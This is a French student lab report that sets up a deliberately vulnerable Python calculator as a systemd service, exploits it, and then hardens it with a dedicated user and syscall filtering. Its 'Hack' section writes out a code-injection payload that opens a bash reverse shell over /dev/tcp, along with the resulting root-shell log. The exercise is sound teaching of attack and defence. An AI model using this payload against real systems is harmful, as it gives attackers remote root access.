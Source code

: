 # Part IV : My shitty app

**[une application Python (toute pourrie) codée avec mes mains](./calc.py) :**

- elle écoute sur un port TCP
- un client peut se connecter (genre avec `nc`)
- le client peut soumettre une opération arithmétique
- l'application calcule le résultat et l'envoie au client
- l'application se termine

## 1. Création de service

🌞 **Créer un service `calculatrice.service`**

```ini
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always

[Install]
WantedBy=multi-user.target
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```bash
# on indique à systemd de relire les fichiers de définition de service
sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

- exécutez un simple `systemctl status calculatrice`
```ps
[dums@vbox ~]$ systemctl status calculatrice
● calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; enabled; preset: disabled)
     Active: active (running) since Wed 2025-02-19 22:30:50 CET; 1min 23s ago
   Main PID: 1359 (python3)
      Tasks: 1 (limit: 11101)
     Memory: 3.3M
        CPU: 44ms
     CGroup: /system.slice/calculatrice.service
             └─1359 /usr/bin/python3 /opt/calc.py

Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- on peut se connecter depuis notre PC
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello3+3
6
```
- l'affichage de l'application est disponible dans les logs : 
```ps
journalctl -xe -u calculatrice
Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
   Subject: A start job for unit calculatrice.service has finished successfully
   Defined-By: systemd
   Support: https://wiki.rockylinux.org/rocky/support  
   A start job for unit calculatrice.service has finished successfully.
  
   The job identifier is 907. 
```

## 3. Hack

🌞 **Hack l'application**




J'ai utilisé un reverse shell vers le port 4444 de ma machine perso.
Voila ce que j'écris dans l'application : 
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello__import__('os').system('bash -c "bash -i >& /dev/tcp/10.1.1.0/4444 0>&1"')
```
Dans mon reverse shell : 
```ps
PS C:\Users\cleme> ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.1.1.11:44150.
bash: cannot set terminal process group (1496): Inappropriate ioctl for device
bash: no job control in this shell
[root@vbox /]# whoami
whoami
root
[root@vbox /]# shutdown now
shutdown now
[root@vbox /]#
PS C:\Users\cleme>
```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```ps 
[dums@vbox ~]$ ps aux | grep calc.py
root         680  0.0  0.4  10892  8576 ?        Ss   23:30   0:00 /usr/bin/python3 /opt/calc.py
```
```ps
[dums@vbox ~]$ ps aux | grep calculatrice
dums        1302  0.0  0.1   6408  2304 pts/0    S+   23:36   0:00 grep --color=auto calculatrice
```

🌞 **Créer l'utilisateur `calculatrice`**

```ps
sudo useradd -r -s /sbin/nologin -M calculatrice
```

🌞 **Adaptez les permissions**

```ps
sudo chown calculatrice:calculatrice /opt/calc.py
```
```ps
sudo chmod 700 /opt/calc.py
```
🌞 **Modifier le `.service`**

- On ajoute la clause `User=calculatrice`

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

```ps
[dums@vbox ~]$ ps aux | grep calc.py
calcula+    1353  0.7  0.4  10828  8192 ?        Ss   23:43   0:00 /usr/bin/python3 /opt/calc.py
dums        1355  0.0  0.1   6412  2304 pts/0    S+   23:43   0:00 grep --color=auto calc.py
```

### B. Syscalls

Bon bah ouais on revient au thème du TP, vous le voyez venir :D

🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal

sortie sysdig --> [calculatrice.scap](./calculatrice.scap)

🌞 **Tracez l'exécution de l'application : hack**

- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?

```ps
switch
```



🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`
- vérifiez que l'exploitation est devenue plus compliquée
